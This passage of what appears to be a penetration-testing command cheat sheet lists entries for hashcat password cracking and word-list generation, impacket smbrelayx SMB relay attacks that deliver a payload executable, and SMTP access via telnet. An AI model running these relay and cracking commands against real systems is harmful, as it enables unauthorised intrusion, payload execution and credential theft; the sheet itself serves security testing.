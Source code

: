 https://hashcat.net/wiki/doku.php?id=maskprocessor
__________
### 50. Word list generator
```
/data/hacking/hashcat-0.49/hashcat-cli64.bin -m 99999 wordseed.dic -r /data/hacking/hashcat-0.49/rules/leetspeak.rule --stdout | sort -u > custom.dic
```
**- linux,Windows,cracking**
#### References:

https://yg.ht
https://hashcat.net/wiki/doku.php?id=maskprocessor
__________
### 51. smbrelay targeted
```
smbrelayx.py -h [TARGETIP] -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 52. smbrelay reflection : note read into http -> smb refelction
```
smbrelayx.py -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 53. Telnet Mail
```
telnet [IP] 25
```
**- linux,networking,Windows**
#### References:

http://www.yuki-onna.co.uk/email/smtp.html
__________
### 54. hashcat cpu
```
./hashcat-cli64.bin --session=[SESSIONNAME] -m[hash ID] [input file] [dict file] --rules rules/[rule file e.g. best64.rule d3ad0ne.rule etc]
```
**- linux,Windows,cracking**
#### References:
